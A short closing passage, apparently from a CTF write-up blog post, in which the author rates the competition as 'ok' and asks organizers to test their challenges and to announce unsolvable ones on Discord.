Overall, this CTF was ok. However, I have 2 suggestions for anyone who wants to organize a CTF competition:

  * DO NOT publish untested challenges. I understand, mistakes happen. However, when you publish MULTIPLE unsolvable challenges, it starts to annoy players.
  * If a challenge is unsolvable, even if you can’t modify it, at least tell everyone on the Discord channel so they don’t loose their time trying to solve it.

Until next time, hack the world.

yakuhito, over.
